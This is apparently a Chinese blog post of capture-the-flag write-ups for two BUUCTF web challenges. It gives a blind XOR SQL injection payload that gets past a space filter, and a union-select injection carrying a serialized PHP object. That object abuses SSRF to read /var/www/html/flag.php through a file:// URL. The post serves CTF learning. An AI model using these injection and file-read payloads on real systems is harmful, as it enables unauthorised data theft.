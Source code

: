 <!--yml
category: 未分类
date: 2022-04-26 14:21:56
-->

# BUUCTF-Web题解（二）_flying_bird2019的博客-CSDN博客

> 来源：[https://blog.csdn.net/flying_bird2019/article/details/111461364](https://blog.csdn.net/flying_bird2019/article/details/111461364)

# Hack World

本题可以使用异或注入
0^(if(ascii(substr((select(flag)from(flag)),?,1))>?,1,0))
这道题主要学到了过滤空格如何注入
空格过滤可以用（字段）、反引号+字段+反引号
本题反引号也被过滤因此只能用括号

# Fatebook（SSRF）

首先注册一个账号，查看账号信息，可以看到有一个参数no
![在这里插入图片描述](img/af62ef594a128acf60b46ee7697d81b9.png)这里尝试sql注入
可以发现存在注入
得到数据库里的信息为

![在这里插入图片描述](img/0ea656e8c0c7e921ee484a9e720b722f.png)查看源码发现

![在这里插入图片描述](img/4d54003cf308a49a942128c6cf987569.png)
他会通过请求你提交的url资源的内容，因此可以SSRF，
sql注入写入数据
?no=0/**/union/**/select/**/1,2,3,‘O:8:“UserInfo”:3:{s:4:“name”;s:3:“123”;s:3:“age”;i:123;s:4:“blog”;s:29:“file:///var/www/html/flag.php”;}’#

![在这里插入图片描述](img/8e6890aaf50f5114a790cf59df3da81e.png)![在这里插入图片描述](img/16dae4df106feb8ded2f3d3e7bab9283.png)
